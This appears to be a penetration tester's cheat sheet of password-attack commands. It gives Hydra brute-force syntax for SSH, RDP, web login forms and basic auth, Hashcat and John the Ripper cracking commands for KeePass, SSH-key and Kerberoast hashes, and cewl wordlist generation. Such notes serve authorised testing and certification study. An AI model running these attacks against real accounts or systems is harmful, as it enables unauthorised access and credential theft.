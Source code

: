 ### Check for default credentials
- Google default credentials for the application (duh)
- `grep -r $searchTerm /usr/share/seclists`

### Hydra
- `hydra -l $username -P /usr/share/wordlists/rockyou.txt -s $alternatePort ssh://$IP`
- `hydra -L /usr/share/wordlists/dirb/others/names.txt -p "$password" rdp://$IP
- Web page example 1:`hydra -l $user -P /usr/share/wordlists/rockyou.txt $IP http-post-form " /index.php:fm_usr=user&fm_pwd=\^PASS^:Login failed. Invalid"`
- Web page example 2: `hydra -l '$username' -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt $IP http-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect"`
	- -`"$loginpage:$parameters:$failMessage$"`
- Basic Auth: `hydra -l admin -P /usr/share/wordlists/rockyou.txt $URL http-get`
- `hydra -L $userlist -p $pass -s 8081 $IP http-post-form '/$path:username=^USER64^&password=^PASS64^:Incorrect'`
	- where -s is for alternate ports, like 8081 and the USER and PASS are base64 encoded
- `hydra -l $user -P $passlist 'http-post-form://192.168.198.61:8081/$path$:username=^USER64^&password=^PASS64^:C=/:F=403'` 
	- Where failure is indicate by 403 error
- Notes:
	- To get Hydra to base64 each item in a list, add a 64 after the USER and PASS variables. (^USER64^ and ^PASS64^)

### Hashcat
- `hashcat -m 0 $hashfile /usr/share/wordlists/rockyou.txt -r 15222.rule --force --show`
- `hashcat -m 13400 $keepassHashFile /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force --show`
- check hashcat for which mode to use (searching for KeePass in this case)
	- `hashcat --help | grep -i "KeePass"`
	- `hashcat -h | grep -i "ssh"`

### john the ripper
- `ssh2john id_rsa > ssh.hash` 
- `keepass2john name.kdbx > keepass1.hash`
- `john --format=krb5tgs sql_svc.kerberoast --wordlist=/usr/share/wordlists/rockyou.txt`

### Misc
- If you're using Burp Intruder for anything, make sure to go to options to set custom error message and follow redirects
- There is http-get-form and https-post-form
- Can create a wordlist from a web page using `cewl`
	- `cewl -d -m 3 $URL -w $output.txt`
		- d = depth, m = minimum letters
	- `cewl $URL > pass`
	- `cewl --lowercase $URL`
- Generate a username list from names: https://github.com/jseidl/usernamer
